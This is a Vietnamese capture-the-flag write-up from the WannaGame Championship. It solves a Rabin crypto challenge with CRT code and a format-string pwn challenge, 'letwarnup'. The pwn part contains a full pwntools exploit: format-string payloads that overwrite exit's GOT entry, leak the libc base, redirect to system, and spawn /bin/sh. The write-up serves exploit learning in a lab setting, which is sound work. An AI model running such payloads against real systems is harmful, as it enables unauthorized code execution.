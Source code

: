# WannaGame Chapionship

![img](https://github.com/datnlq/Source/blob/main/CTF/img/54010N.png?raw=true)

Chào các bạn, team mình vừa tham gia giải WannaOne tổ chức vừa qua và giải được 1 vài challenge, sau đây mình sẽ tổng hợp lại các writeup của cả team đã solve được :3

### Baby Square Root (Crypto)
![img](https://github.com/datnlq/Source/blob/main/CTF/img/baby_square_root.png?raw=true)
```
fromCrypto.Util.number import bytes_to_long, getPrime
from secret import flag

m = bytes_to_long(flag)

def genkey(nbits):
    while True:
        p, q, r = [getPrime(nbits) for _ in range(3)]
        if (p % 4 == 3) and (q % 4 == 3) and (r % 4 == 3):
            if (m % p)**2 > p and (m % p)**2 > q and (m % r)**2 > r:
                return p, q, r

p, q, r = genkey(256)
print("p = %d" % p)
print("q = %d" % q)
print("r = %d" % r)        
n = p * q * r
assert m * m > n
c = pow(m, 2, n)
print("c = %d" % c)
# p = 70983802669936779583888271861264418553792693554114299680738628616089490185419
# q = 58305592279975890783353046164122693676607057964958376141731197322666598532103
# r = 97916428487890361773100867250333330323792113286852927362830936108809145675571
# c = 133577637589652723069183361093768415945855108781724437021455876659182394384174818367149957719648205506911291215264096735072761818791817528925431287027255773272638623023278085524784625145794560351502585907066260712268740708335604444

```

Đọc hiểu đoạn code python trên chúng ta nhận ra 1 vài vấn đề như sau:

  + Đây là 1 bài [Rabin RSA](https://www.math.auckland.ac.nz/~sgal018/crypto-book/ch24.pdf)
  + q,p,r = 3 (mod 4)
  + Khi Legendre Symbol (x/N) = 1 thì x và n-x là 1 square modulo n

Dựa vào những phân tích ở trên ta có được các biểu thức sau:
  + mp = c^(p+1)/4 (mod p) => mp^2 = c (mod p)
  + mq = c^(q+1)/4 (mod q) => mq^2 = c (mod q)
  + mr = c^(r+1)/4 (mod r) => mr^2 = c (mod r)
  
 Từ những dữ kiện trên, ta dùng CRT để tính toán ra lại giá trị m. Dựa vào đó ta có code như sau:



```
from Crypto.Util.number import *
import gmpy2

p = 70983802669936779583888271861264418553792693554114299680738628616089490185419
q = 58305592279975890783353046164122693676607057964958376141731197322666598532103
r = 97916428487890361773100867250333330323792113286852927362830936108809145675571
c = 133577637589652723069183361093768415945855108781724437021455876659182394384174818367149957719648205506911291215264096735072761818791817528925431287027255773272638623023278085524784625145794560351502585907066260712268740708335604444
n = p * q * r

mp = pow(c, (p+1)//4, p)
mq = pow(c, (q+1)//4, q)
mr = pow(c, (r+1)//4, r)

print("mp = ", mp)
print("mq = ", mq)
print("mr = ", mr)

print(pow(mp, 2, p) == c%p)

yp = n//mq//mr
yq = n//mp//mr
yr = n//mp//mq

zp = inverse(yp, p)
zq = inverse(yq, q)
zr = inverse(yr, r)

m = (mp*yp*zp + mq*yq*zq + mr*yr*zr) 
m = 405251878563859034013993263635104394619048731139877286040011778613066766304610456261463756664887516315281979277436649271325146838356345161228881883353921803425724176576610588194813849282591846167918210163694920450096777213599649434
print(long_to_bytes(m))
print(long_to_bytes(n - m))
```
![img](https://github.com/datnlq/Source/blob/main/CTF/img/baby_square_root_flag.png?raw=true)

### letwarnup (Pwn)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup.png?raw=true)

Đây là một challenge khá là khó khăn với mình :| vì mình ngồi hơn 8h mà vẫn bị ngáo vì bài này @@

Đầu tiên đề cho chúng ta 2 file: 1 file binary và 1 libc.

Sử dụng các câu lệnh cơ bản để kiểm tra file và dùng IDA Pro để xem souce như sau:


![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_checkfile.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_IDAmain.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_IDAvuln.png?raw=true)

Sau đó chúng ta chạy thử chương trình và gdb để phân tích rõ flow của chương trình hơn.

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_test.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_debug_findbuffaddress.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_debug_stack.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_buffad.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_retvuln.png?raw=true)

Sau 1 loạt hành động thử như trên thì mình rút ra được vài điều như sau:

  + Đây là lỗi fmt ở hàm vuln
  + Flow của chương trình sẽ dừng ở hàm exit() trong hàm vuln()
  + Input sẽ không được ghi vào stack mà sẽ được ghi vào 1 địa chỉ tồn tại trong stack


Sau khi rút ra được những điều trên thì mình lú mất tiêu rồi @@ giờ intput không có trong stack, địa chỉ của exit cũng không có trong stack :| Out of game rồi

Sau đó có 2 hint xuất hiện như sau: 

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_hint1.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_hint2.png?raw=true)

Hint đề cập đế old rbp và 1 kỹ thuật nghe khá là lạ tai là two stage write sau đó gọi ý chúng ta sẽ tác động đến địa chỉ trong GOT table Hhmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm

Sao vẫn có cảm giác out of game thế nhờ

Nhưng không sao, tư duy dần rõ ràng sau khi mình ngồi thêm vài tiếng :vv Mình đã có thể tạo ra địa chỉ của exit trên stack bằng old rbp của main được tại vuln, sau đó ta thay đổi giá trị của địa chỉ exit GOT bằng địa chỉ của hàm main để tạo ra 1 looping cho chúng ta khai thác
```
payload = b'%c%c%c%c%c%c%4210746c%lln%53743c%hn'
```
![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_payloadloop.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_payloadloop2.png?raw=true)

Sau đó chúng ta phải leak được lib base bằng cách leak địa chỉ của hàm trả về là __libc_start_main+243 với offset là 17 

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_retmain.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_leaklibcbase.png?raw=true)

Tính toán và ghi hàm system và exit GOT để có thể exploit bằng kỹ thuật ret2libc :<


![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_ret2libc.png?raw=true)

```
from pwn import *

BIN = "./letwarnup"
elf = ELF(BIN)
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')

def exploit():
	__breakpoint="""
		b*0x0000000000401278
		"""
	gdb.attach(io,__breakpoint)
	payload = b'%c%c%c%c%c%c%4210746c%lln%53743c%hn'
	io.sendlineafter(b'Enter your string:\n', payload)
	for i in range(1040):
	  io.recv()
	payload = b'%17$p'
	io.sendlineafter(b'Enter your string:\n', payload)
	libc.address = int(io.recv(14).decode(), 16) - libc.symbols['__libc_start_main'] - 243
	print('Libc base: ', hex(libc.address))
	io.sendlineafter(b'Enter your string:\n', b'%c%c%c%c%c%c%4210714c%lln')
	io.sendlineafter(b'Enter your string:\n', b'%c%c%c%c%c%c%4210716c%lln')
	offset = (libc.symbols['system'] & 0xff0000) >> 16
	syscall = libc.symbols['system'] & 0xffff
	print('Offset: ', hex(offset))
	print('System: ', hex(syscall))
	if offset < 14:
	  print('Fail: Offset < 14')
	  io.close()
	  exit(0)
	payload = '%c%c%c%c%c%c%c%c%c%c%c%c%c%c%' + str(offset - 14) + 'c%hhn%c%c%c%c%' + str(syscall - offset - 4) + 'c%hn'
	io.sendlineafter(b'Enter your string:\n', bytes(payload, 'utf-8'))
	io.sendlineafter(b'Enter your string:\n', b'/bin/sh\x00')
	io.interactive()
io = process(BIN)
#io = remote('45.122.249.68', 10005)
context.log_level = 'debug'
exploit()
```
























